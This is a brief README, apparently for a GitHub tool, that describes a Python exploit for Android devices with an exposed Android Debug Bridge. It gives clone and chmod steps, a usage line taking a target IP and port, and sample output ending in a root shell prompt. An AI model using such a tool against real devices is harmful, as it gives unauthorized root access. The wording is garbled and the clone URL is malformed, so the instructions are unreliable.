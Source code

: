 # Android Debug Bridge Exploit

This Exploit let them exploit which android phone or emulator running on android debug bridge.
Also this exploit should be run only linux oss. 

# Installition

+ git clone https://Alperenae/androidexp
+ cd androidexp
+ chmod +x exploitadb.py

# Usage

`python3 exploitadb.py -t/--target [TargetIP] --port [TargetPort]`

# Proof Of Consept [PoC]

`[*] Trying Connection`					  
+ `connected to [***.***.**.**]:[****]`			  

`[*] Trying To Root Shell`
+ `root@ln_opi+:/ #`
